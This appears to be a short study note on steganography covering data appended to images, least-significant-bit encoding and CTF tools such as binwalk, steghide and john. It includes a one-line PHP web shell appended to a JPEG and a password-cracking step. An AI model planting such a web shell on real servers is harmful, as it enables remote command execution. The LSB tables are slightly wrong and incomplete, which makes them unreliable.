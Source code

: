 # Steganography
The practice of concealing information wihtin another message or physical object in order to avoid detection.

## Hiding code in images
These techniques may be useful, but they are also very easy to detect. Altering the image file will change it's file hash as well as inflate it's size.

Appending a string to the end of an image file will allow it to still be render, but also provide a unique attack vector.
```sh
echo '<?php echo shell_exec($_GET["cmd"]);?>' >> image.jpg
```
Using the same method you can attach an entire file to the image. That can later be extracted.
```sh
cat rar.rar >> image.jpg
```

Read the file
```sh
hexdump image.jpg | tail -10 | xxd -r -p
```

## Least Significant Bit (LSB) Manipulation
Pixels in a coloured image are represented by 3 bytes (Red, Green, Blue).  The most widely used modes are:

- RGB (3x8 bit pixels, true-color)
- RGBA (4x8 bit pixels, true-color with transparency mask)

Lets take the colour:

| Hex | RGB | Binary |
| --- | --- | ------ |
| #222222 | 34,34,34 | 00100010, 00100010, 00100010 |

The LSB would look like:

| Binary | LSB |
| ------ | --- |
| 0010001 | 0 |
| 0010001 | 0 |
| 0010001 | 0 |

### Encoding Messages using the LSB
We can use the [ASCII Table](https://www.cs.cmu.edu/~pattis/15-1XX/common/handouts/ascii.html) to convert our message into binary.

| Value | Decimal | Binary | 
| Hi Mom! | 72 105 32 77 111 109 33 | 

## Tools
To test a file for stenography:
```sh
binwalk filename.png
binwalk -e filename.png

steghide info filename.jpg
steghide extract -sf filename.jpg
```

If the file is a password protected zip file:
```sh
zip2john zipfile.zip > zip.hash
john zip.hash
```

Unzip file
```sh
7z e zipfile.zip
```
